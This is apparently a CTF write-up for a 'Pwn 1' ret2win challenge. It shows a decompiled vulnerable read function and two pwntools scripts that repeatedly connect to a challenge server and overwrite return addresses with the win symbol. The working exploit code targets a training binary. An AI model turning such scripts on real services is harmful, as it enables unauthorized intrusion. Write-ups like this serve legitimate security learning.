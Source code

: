 # Pwn 1
## techique: ret2win

First, I receive 3 files relative with challenge: 
* chall (elf file)
* libc.so.6
* ld-2.35.so

After, i patched it to chall_patched file. Let's checksec --> overview --> debug this file.<br>
![picture1](./pic/pic1.png)

### vuln() function
```c
ssize_t vuln()
{
  ssize_t result; // rax
  char buf[40]; // [rsp+0h] [rbp-20h] BYREF

  printf("Input: ");
  result = read(0, buf, 0x20uLL);
  buf[32] = 0;
  return result;
}
```
Nothing special, I can not exploit if I don't see this part:<br>
![picture2](./pic/pic2.png)

After ask author time, I got the answer that it is random :v. If you lucky, you will have stack address have 1 byte **`\x00`** in last address in your buffer(inputed) (like the picture above 😂).<br>

I have a payload to solve this chall:
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./chall_patched', checksec=False)
while(1):
    try:
        p=remote("34.124.180.6" ,5001)
        p.recvuntil(b'Input: ')
        payload = p64(elf.sym["win"]) * 4
        p.send(payload)
        context.log_level = "DEBUG"
        p.interactive()
    except:
        p.close()
```
Did you try this payload?<br> 
You have been **Segment fault...** 😁<br>
But I tried this payload too, so SAD...
Here is true payload for this chall:
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./chall_patched', checksec=False)
ret = 0x000000000040101a
while(1):
    try:
        p=remote("34.124.180.6" ,5001)
        p.recvuntil(b'Input: ')
        payload = p64(elf.sym["win"] + 8) * 4
        p.send(payload)
        context.log_level = "DEBUG"
        p.interactive()
    except:
        p.close()
```
Detail a little, This payload will return to **`<win + 8>`** address to avoid **`Segment fault`** for **`ELF-64 bits`**. Length this payload equal **`32`** follow this challenge and I multiple with **`4`** to increase the possibility of success <br>
Oke done.

![picture3](./pic/pic3.png)